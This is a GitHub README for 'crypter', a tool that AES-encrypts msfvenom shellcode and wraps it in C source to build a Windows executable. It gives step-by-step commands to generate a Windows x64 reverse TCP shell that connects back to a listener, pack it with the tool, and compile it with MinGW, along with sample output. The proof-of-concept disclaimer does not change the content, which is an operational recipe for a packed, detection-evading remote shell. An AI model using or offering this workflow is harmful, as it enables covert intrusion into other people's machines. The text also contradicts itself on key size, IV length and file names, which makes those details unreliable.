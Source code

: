 # crypter
A shellcode crypto-packing tool for PoC (used with msfvenom/binary payloads)

This tool is for proof of concept only - please use responsibly.

Crypter is an auxiliary tool used for crypto packing msfvenom Windows payloads.
It uses AES128 (optimal for speed) to encrypt the payload and create C source from it from which you can compile (on linux or windows) into an executable.

You will need to install `MinGW` on Linux in order to compile `.exe` files:

```
$ apt-get update
$ apt-get install mingw-w64
```
________________________________

#Install

First, you will need to install the dependency/dependencies that `crypter` relies on (mainly OpenSSL):

```
$ apt-get install libssl-dev
```

Then, download this repository and install:

```
$ git clone https://github.com/ripmeep/crypter/ && cd crypter
$ gcc crypter.c -o crypter -lcrypto -I src/
```

#Usage

You will need to generate/already have a file that contains raw shellcode that you wish to execute in an exe file.
Metasploit is a good way of generating one for reverse shells/exploits. (https://github.com/rapid7/metasploit-framework/)

Generate a payload:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=[LISTENER IP] LPORT=[LISTENER PORT] -f raw -o payload.bin
```

Run crypter to crypto pack the shellcode into a C source binary:

```
$ ./crypter payload.bin shell.exe

Extracted contents of payload.dat
Generated random AES256 Cryto Pack key: 924C2038A4B0DEFDF8420A2A896688CE900DD26109759A4CAE0681A147A64FA5
Generated random initialization vector: 34A7B03E8F2CD3023ED2BF78ECC8AE846D84B30F96E97BC02189820276DEB229
Successfully encrypted payload - generating exe file

Generated Crypto C source
Writing source to shell.exe.c...
Done
Now run: x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector
Finished
```

It will then display the MinGW command you need to run to compile the source file.
`x86_64-w64-mingw32-gcc shell.exe.c -o shell.exe -fno-stack-protector` (my case).
